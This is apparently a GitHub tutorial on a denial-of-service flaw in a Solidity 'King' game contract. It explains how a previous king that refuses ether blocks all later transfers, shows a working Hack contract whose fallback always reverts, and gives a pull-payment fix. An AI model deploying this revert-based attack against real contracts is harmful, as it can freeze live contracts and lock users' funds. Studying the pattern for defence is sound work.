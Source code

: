 # Smart_contract_security
```bash
;
```
DOS attack on a smart contract.

We will see how a contract  which rejects accepting ether is used to trigger a DOS attack on a smart contract .
We will also see a contract with similar functionality , but which is not vulnerable to DOS attacks.

"The King contract is a simple game where participants can become the king by sending more Ether than the current prize. The contract keeps track of the current king, the prize, and the contract owner."
```bash
contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() payable {
    owner = payable(msg.sender);
    king = payable(msg.sender);
    prize = msg.value;
  }

  receive() external payable {
    _becomeKing();
  }

  function becomeKing() external payable {
    _becomeKing();
  }

  function _becomeKing() internal {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value); //transfer method sends the specified amount of Ether and reverts the transaction if the transfer fails
    king = payable(msg.sender);
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}


```




State Variables

Here, king is the address of the current king, prize is the amount of Ether needed to become the king, and owner is the contract owner.

Constructor

The constructor sets the initial owner and king to the contract creator, and the initial prize to the Ether sent during contract deployment.

Receive Function

The receive function is triggered when the contract receives Ether, calling the internal _becomeKing function to update the king.

Become King Function

Participants can also explicitly call becomeKing to attempt to become the king. The _becomeKing function checks if the sent Ether is at least the current prize, transfers the Ether to the current king, and updates the king and prize.


The Vulnerability

The vulnerability lies in the king.transfer(msg.value) line. If the king is a contract that reverts on receiving Ether, the transfer will fail, causing a Denial of Service.

Let's see how this vulnerability can be exploited with the Hack contract.



The vulnerability lies in the king.transfer(msg.value) line. If the king is a contract that reverts on receiving Ether, the transfer will fail, causing a Denial of Service.

## Exploiting this vulnerability with a hack contract
```bash
contract Hack {
constructor(address payable target) payable {
    uint prize = King(target).prize();
       (bool ok,) = target.call{value: prize}("");
        require(ok, "tx failed");
    }
fallback() external payable {

    revert();
}

function withdraw() external {
       payable(msg.sender).transfer(address(this).balance);
   }

}
```

The Hack contract exploits the vulnerability by becoming the king and then blocking any subsequent Ether transfers.The constructor sends enough Ether to the King contract to become the king.The fallback function always reverts, preventing any Ether transfer to the Hack contract, thus causing the DoS.

#Mitigating the Vulnerability

Updated version of the King contract 

```bash
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address payable public king;
    uint public prize;
    address payable public owner;

    mapping(address => uint) public pendingWithdrawals;

    event NewKing(address indexed newKing, uint prize);

    constructor() payable {
        owner = payable(msg.sender);
        king = payable(msg.sender);
        prize = msg.value;
    }

    receive() external payable {
        _becomeKing();
    }

    function becomeKing() public payable {
        _becomeKing();
    }

    function _becomeKing() internal {
        require(msg.value >= prize || msg.sender == owner, "Insufficient value to become the king");
        
        if (king != address(0)) {
            pendingWithdrawals[king] += prize;
        }
        
        king = payable(msg.sender);
        prize = msg.value;

        emit NewKing(msg.sender, msg.value);
    }

    function withdraw() public {
        uint amount = pendingWithdrawals[msg.sender];
        require(amount > 0, "No funds to withdraw");

        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Withdrawal failed");
    }

    function _king() public view returns (address payable) {
        return king;
    }
}
```
This updated version of the King contract includes a mitigation against the DoS with revert vulnerability. Instead of transferring Ether directly to the previous king using transfer, it uses a pull payment mechanism. The previous king can withdraw their prize at their convenience.

The mapping function in this context is used to create a record of pending withdrawals for each address that has Ether to be claimed. It ensures that Ether owed to previous kings is stored and can be withdrawn later, rather than being transferred immediately when a new king is crowned. This avoids the risk of blocking the contract if the recipient rejects the transfer.
